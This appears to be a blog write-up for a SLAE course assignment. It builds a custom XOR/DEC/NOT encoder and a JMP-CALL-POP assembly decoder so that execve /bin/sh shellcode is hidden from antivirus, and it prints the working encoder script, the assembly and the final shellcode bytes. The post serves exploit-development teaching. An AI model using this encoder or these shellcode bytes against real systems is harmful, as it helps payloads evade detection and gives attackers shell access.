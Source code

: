 ```yaml
---
layout: post
title: Linux x86 Custom Encoder
tags: [slae]
---
```


For the fourth assignment on the SLAE we're asked to create a custom encoder. Encoders are used to aid in masking your true shellcode to help bypass protections that may be in place, like an anti-virus. There are many ways to do this with various techniques. For my encoder I decided to chain a few different simple techniques to encode and decode our shellcode. The encoder will first decrement the individual bytes in the shellcode by 1, XOR it with 0xaa, and finally perform a NOT operation on itself. To accomplish this, a simple python script was created.

```python
#!/usr/env/python3

# XOR, DEC, NOT shellcode encoder

shellcode = (b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

# intialize variables
encoded_shellcode = ""
encoded_nasm = ""

for x in bytearray(shellcode) :
	
	# DEC
	x = x - 0x01
	
	# XOR with OxAA 	
	y = x^0xAA
	
	# NOT encode
	z = ~y
	
	# shellcode format with \x
	encoded_shellcode += "\\x"
	
	# hex format with AND operation for 2's complement
	encoded_shellcode += "%02x" %(z & 0xff)

	# shellcode format for pasting in nasm file
	encoded_nasm += "0x"
	encoded_nasm += "%02x," %(z & 0xff)


print('Encoded shellcode:')
print(encoded_shellcode)

print('Shellcode for nasm:')
print(encoded_nasm)

print('Shellcode Length: %d' % len(bytearray(shellcode)))
``` 

The shellcode used for testing our encoding will simply execute `/bin/sh` using the execve-stack method. The assembly for that looks like such:

```nasm
global _start			

section .text
_start:

	xor eax, eax		; clear eax
	push eax		; NULL
	push 0x68732f2f		; "hs//"
	push 0x6e69622f		; "nib/"
	mov ebx, esp		; point ebx to stack
	push eax		; NULL
	mov edx, esp		; point edx to stack
	push ebx		; push /bin/sh address to stack
	mov ecx, esp		; point ecx to stack
	mov al, 11		; execve()
	int 0x80		; call execve

``` 

Let's run the python encoder.

```
absolomb@ubuntu:~/SLAE/assignments/4$ python3 encoder.py
Encoded shellcode:
\x65\xea\x1a\x32\x7b\x7b\x27\x32\x32\x7b\x34\x3d\x38\xdd\xb7\x1a\xdd\xb4\x07\xdd\xb5\xfa\x5f\x99\x2a
Shellcode for nasm:
0x65,0xea,0x1a,0x32,0x7b,0x7b,0x27,0x32,0x32,0x7b,0x34,0x3d,0x38,0xdd,0xb7,0x1a,0xdd,0xb4,0x07,0xdd,0xb5,0xfa,0x5f,0x99,0x2a,
Shellcode Length: 25
```

Now that we have our encoded shellcode we'll need to setup our decoder in assembly. We'll need to reverse the operations of our python script which means we'll first need to perform the NOT operation, then XOR, and finally INC. 

To accomplish our decoding we'll be utilizing the JMP-CALL-POP technique. The JMP will go down to our encoded shellcode and CALL our decoder_setup. The CALL will also push the next instruction to the stack, which happens to be the location of our encoded shellcode. This allows us to simply POP our encoded shellcode into ESI and start decoding it.

We'll also be using a marker (0xaa) to signify the end of our shellcode so we know when to stop decoding. To find our marker we'll do a simple compare to check if the marker matches the current byte we're trying to decode. If it does match, we know the decoding is finished and we can jump to our decoded shellcode. 

```nasm
global _start			

section .text
_start:

	jmp short call_shellcode

decoder_setup:

	pop esi			; pop shellcode into esi

decode:

	cmp byte [esi], 0xAA	; compare current esi byte with our 0xaa marker
	jz shellcode		; if compare succeeds, jump to shellcode
	not byte [esi]		; NOT operation of current byte in esi
	xor byte [esi], 0xAA	; XOR with 0xaa
	inc byte [esi]		; increment by 1
	inc esi			; move to next byte in esi
	jmp short decode	; jump back to start of decode

call_shellcode:

	call decoder_setup	; pushes shellcode to stack and jumps to decoder_setup

	shellcode: db 0x65,0xea,0x1a,0x32,0x7b,0x7b,0x27,0x32,0x32,0x7b,0x34,0x3d,0x38,0xdd,0xb7,0x1a,0xdd,0xb4,0x07,0xdd,0xb5,0xfa,0x5f,0x99,0x2a, 0xaa
```

Now to compile and extract the shellcode. 

```
absolomb@ubuntu:~/SLAE/assignments/4$ ./compile.sh decoder2
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/4$ for i in $(objdump -d decoder |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\xeb\x10\x5e\x80\x3e\xaa\x74\x0f\xf6\x16\x80\x36\xaa\xfe\x06\x46\xeb\xf1\xe8\xeb\xff\xff\xff\x65\xea\x1a\x32\x7b\x7b\x27\x32\x32\x7b\x34\x3d\x38\xdd\xb7\x1a\xdd\xb4\x07\xdd\xb5\xfa\x5f\x99\x2a\xaa
```

Once again we'll be using a simple C wrapper to execute our shellcode.

```
absolomb@ubuntu:~/SLAE/assignments/4$ vim shellcode.c
absolomb@ubuntu:~/SLAE/assignments/4$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstack

absolomb@ubuntu:~/SLAE/assignments/4$ ./shellcode
Shellcode Length:  49
$ id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Decoder successful! Our shellcode nearly doubled in length but overall not too bad.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: <http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/>

Student ID: SLAE-1208

Github Repo: <https://github.com/absolomb/SLAE>